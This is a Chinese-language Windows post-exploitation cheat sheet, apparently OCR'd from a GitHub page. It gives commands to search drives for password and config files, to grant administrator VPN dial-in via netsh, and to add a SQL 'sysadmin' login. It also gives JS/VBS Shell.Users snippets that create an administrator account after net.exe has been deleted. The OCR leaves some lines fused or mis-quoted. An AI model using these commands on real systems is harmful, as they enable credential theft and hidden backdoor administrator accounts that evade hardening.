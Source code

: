 * 系统中是否存在任何Apache网络日志？
``` 
dir /s access.log error.log
Get-Childitem –Path C:\ -Include access.log,error.log -File -Recurse -ErrorAction SilentlyContinue
``` 
* 系统中是否任何有趣的文件？可能在用户目录（桌面，文档等）？
``` 
dir /s *pass* == *vnc* == *.config* 2>nulGet-Childitem –Path C:\Users\ -Include *password*,*vnc*,*.config -File -Recurse -ErrorAction SilentlyContinue
``` 
* 系统中是否有包含密码的文件？
``` 
findstr /si password *.xml *.ini *.txt *.config 2>nul
``` 
``` 
Get-ChildItem C:\* -include *.xml,*.ini,*.txt,*.config -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password"
``` 

* cmd 下操作VPN 相关知识，资料：
``` 
#允许administrator拨入该VPN：
netsh ras set user administrator permit
#禁止administrator拨入该VPN：
netsh ras set user administrator deny
#查看哪些用户可以拨入VPN：
netsh ras show user
#查看VPN分配IP的方式：
netsh ras ip show config
#使用地址池的方式分配IP：
netsh ras ip set addrassign method = pool
#地址池的范围是从192.168.3.1到192.168.3.254：
netsh ras ip add range from = 192.168.3.1 to = 192.168.3.254
``` 
* Cmd、Dos 命令行下添加 SQL 用户的方法：
``` 
需要有管理员权限，在命令下先建立一个“c:\test.qry”文件，内容如下：
exec master.dbo.sp_addlogin test,123
EXEC sp_addsrvrolemember 'test, 'sysadmin'
然后在DOS下执行：cmd.exe /c isql -E /U alma /P /i c:\test.qry
``` 
另类的加用户方法：
在删掉了 net.exe 和不用 adsi 之外，新的加用户的方法。代码如下：
``` 
js:
var o=new ActiveXObject( "Shell.Users" );
z=o.create("test") ;
z.changePassword("123456","")
z.setting("AccountType")=3;
``` 
``` 
vbs:
view source
Set o=CreateObject( "Shell.Users" )
Set z=o.create("test")
z.changePassword "123456",""
z.setting("AccountType")=3
``` 
